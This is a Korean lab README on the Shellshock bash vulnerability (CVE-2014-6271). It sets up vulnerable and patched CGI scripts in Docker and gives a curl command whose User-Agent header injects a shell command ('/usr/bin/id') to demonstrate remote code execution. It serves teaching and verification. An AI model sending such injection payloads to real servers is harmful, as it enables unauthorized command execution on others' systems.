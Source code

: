 # CVE-2014-6271

###취약점 설명
CVE-2014-6271은 bash에서 발견된 보안 취약점으로 'Shellshock'라는 이름으로 알려져있다. 이 취약점은 Bash가 환경 변수를 처리하는 과정에서 발생한다. 특히 bash가 함수를 환경 변수로부터 받을 때, 뒤에 따라오는 추가 명령을 실행하는 문제가 있다.

###환경 구성 및 실행
```
docker compose build
docker compose up -d
```
위 명령어를 실행하여 테스트 환경을 구축할 수 있다.
이를 통해 두 개의 cgi 스크립트가 호스팅되는 웹 서버 환경을 만든다:

safe.cgi - 최신 Bash를 사용하여 생성된 CGI 스크립트로,  Shellshock 취약점에 안전하다.
victim.cgi - Bash 4.3을 사용하여 생성된 CGI 스크립트로, Shellshock 취약점에 취약하다.

###취약점 확인
사용자가 HTTP요청 도구를 사용하여 victim.cgi에 접근할 때 User-Agent부분에 취약점을 이용하여 명령어를 포함시킨 요청을 보낸다.
이 요청이 실행될 경우 취약점이 있는 bash를 사용하는 서버에서 명령어가 실행된다.
반면 safe.cgi는 패치가 진행된 bash를 사용하여 동일한 요청에도 영향을 받지 않는 것을 확인할 수 있다.

아래 명령어를 통해 이를 확인할 수 있다.

1. 취약한 bash의 경우
```
curl -v http://your_ip_address:8080/victim.cgi -H "User-Agent: () { foo; }; echo; echo; /usr/bin/id" --output response.txt
cat response.txt
```
아래와 같이 '/usr/bin/id' 명령이 실행된 것을 확인할 수 있다.
![](victim_result.png)

2. 안전한 bash의 경우
```
curl -v http://your_ip_address:8080/safe.cgi -H "User-Agent: () { foo; }; echo; echo; /usr/bin/id" --output response.txt
cat response.txt
```
아래와 같이 '/usr/bin/id' 명령이 실행되지 않는 것을 확인할 수 있다.
![](safe_result.png)

###정리
이 취약점은 공격자가 원하는 코드를 원격으로 실행할 수 있도록 하여, 취약한 시스템에 대한 제어가 가능하게 한다. bash를 사용하는 시스템이 매우 많아 이 취약점은 광범위한 영향을 끼쳤다. 
이러한 취약점에 대응하기 위해 bash의 버전을 업데이트 하여 사용하여야 하고, 취약한 bash를 사용하는 시스템들을 점검하여야 한다.

